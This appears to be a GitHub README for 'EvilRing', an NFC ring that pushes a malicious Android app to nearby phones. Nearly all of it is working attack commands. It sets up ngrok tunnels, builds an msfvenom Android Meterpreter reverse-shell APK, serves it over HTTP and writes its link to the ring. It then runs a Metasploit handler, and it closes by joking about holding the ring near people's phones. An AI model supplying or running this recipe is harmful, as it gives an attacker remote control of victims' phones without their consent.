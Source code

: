# EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:

1. Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz`
`tar -xzvf ngrok-v3-stable-linux-amd64.tgz`
`chmod +x ngrok`
`sudo mv ngrok /usr/local/bin/ngrok`
`rm ngrok-v3-stable-linux-amd64.tgz`
`ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`

2. Create an ngrok TCP tunnel

(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended
Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3. Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4. Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080`
`./ngrok http 8080`

5. Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6. On your command and control open msfconsole:
  
`msfconsole -q`

(inside msfconsole)
`use exploit/multi/handler`
`set payload android/meterpreter/reverse_tcp`
`set LHOST 0.0.0.0`
`set LPORT 4242`
`run`
  
7.  (Dont) go an hold onto some phones!
